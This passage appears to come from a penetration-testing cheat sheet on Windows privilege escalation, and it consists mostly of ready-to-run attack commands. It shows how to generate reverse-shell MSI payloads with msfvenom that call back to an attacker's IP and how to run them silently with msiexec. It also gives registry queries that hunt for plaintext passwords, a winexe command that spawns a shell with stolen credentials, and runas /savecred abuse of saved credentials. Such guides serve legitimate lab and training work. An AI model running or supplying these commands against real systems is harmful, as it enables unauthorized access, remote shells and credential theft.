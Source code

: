#### Create a reverse shell with msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
msfvenom -p windows/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```

#### Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:
```
msiexec /quiet /qn /i C:\temp\reverse.msi
```

## Passwords
Yes, passwords. Even administrators re-use their passwords, or leave their passwords on systems in readable locations. Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.

### Registery
Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords. The following commands will search the registry for keys and values that contain “password”

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Spawn shell using credentials
```
winexe -U '<USERNAME>%<PASSWORD>' //<IP> cmd.exe
```

### Saved creds
Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

#### Manually check for saved credentials
```
cmdkey /list
```

#### Use saved credentials
```
runas /savecred /user:admin C:\temp\reverse.exe
```

### Configuration Files
```
Some administrators will leave configurations files on the system with passwords in them. The Unattend.xml file is an example of this. It allows for the largely automated setup of Windows systems.
```
